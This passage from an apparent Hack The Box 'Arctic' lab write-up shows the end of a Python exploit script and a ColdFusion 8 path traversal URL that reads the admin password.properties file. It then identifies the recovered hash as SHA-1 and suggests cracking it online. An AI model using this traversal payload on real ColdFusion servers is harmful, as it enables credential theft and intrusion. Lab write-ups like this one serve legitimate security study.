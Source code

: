 ```
            print "------------------------------"
            print m.groups(0)[0]
            print "------------------------------"

if __name__ == '__main__':
    main()
 ```
 Also it looks like there is password stored at ```password.properties```, so we can grab it by visiting: ```http://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en```

Here it is:

![image2](https://github.com/electronicbots/HackTheBox/blob/master/Machines/Arctic/images/2.png)

So if we use ```hash-identifier``` we can see that the hash is SHA-1:
```
kali@kali:~/Desktop$ hash-identifier 
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: 2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03

Possible Hashs:
[+] SHA-1
```
We can use https://crackstation.net/ to get the password:
